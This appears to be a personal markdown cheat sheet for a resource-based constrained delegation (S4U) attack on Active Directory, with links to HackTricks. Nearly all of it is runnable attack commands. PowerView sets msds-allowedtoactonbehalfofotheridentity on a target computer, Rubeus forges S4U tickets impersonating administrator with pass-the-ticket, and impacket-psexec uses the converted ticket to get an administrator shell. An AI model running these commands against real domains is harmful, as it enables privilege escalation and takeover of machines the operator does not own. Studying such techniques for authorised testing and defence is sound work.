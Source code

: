 # resource based constrained delegation S4U attack
https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#resource-based-constrained-delegation
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
- transfer scripts and rubeus
- follow directions from hacktricks
- replace all the options for domain and the hashes provided

## powershell commands on target
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation
- use rubeus to hash
- replace hashes in s4u command
- replace domain and FQDN

```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
# substitute hashes, domain, fqdn
.\rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:HASH_HERE /aes128:HASH_HERE /rc4:HASH_HERE /impersonateuser:administrator /msdsspn:cifs/FQDNMachine.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
# copy base64 from smb ticket to your machine and decode it to do impacket-psexec
```

## transfering tickets to attacker machine to psexec
### convert kirbi to ccache
tickets printed by rubeus are base64 encoded kirbi files.
convert with `impacket-ticketConverter`.
```bash
base64 -d smb.ticket.b64 > smb.ticket.kirbi
impacket-ticketConverter smb.ticket.kirbi smb.ticket.ccache
export KRB5CCNAME=$(pwd)/smb.ticket.ccache
impacket-psexec domain.local/Administrator@FQDNMachine.domain.local -k -no-pass
```
